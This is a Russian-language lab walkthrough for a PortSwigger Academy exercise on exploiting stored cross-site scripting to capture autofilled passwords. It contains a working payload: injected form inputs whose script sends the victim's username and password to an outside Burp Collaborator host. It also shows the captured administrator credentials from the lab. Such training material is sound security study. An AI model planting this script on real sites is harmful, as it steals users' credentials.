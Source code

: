 Следующая лабораторная работа направлена на кражу связки логина и пароля у жертвы, если у нее включено автозаполнение полей на формах аутентификации
воспользуемся бурп коллаборатором и с помощью кнопки `Copy to clipboard` сформируем DGA домен
```
9fpmixp3m7yikrxfwyd4h1zbq2wukk89.oastify.com
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/24.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/pics%20for%20walkthrough/1.png)

Далее перейдем на ресурс и оставим в поле комментария следующий скрипт

```
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://9fpmixp3m7yikrxfwyd4h1zbq2wukk89.oastify.com',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/24.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/pics%20for%20walkthrough/2.png)
и видим что на бурп коллаборатор прилетел отстук со связкой логин-пароль
```
administrator:6818i4rbrydds0k5n29p
```
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/24.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/pics%20for%20walkthrough/3.png)
Зайдем под данными кредами на ресурс и получим уведомление об успешном выполнении лабораторной работы
![img](https://github.com/adyatlove/PortSwiggerAcademy/blob/main/13.%20%D0%A1ross-site%20scripting%20(XSS)/24.%20Exploiting%20cross-site%20scripting%20to%20capture%20passwords/pics%20for%20walkthrough/4.png)
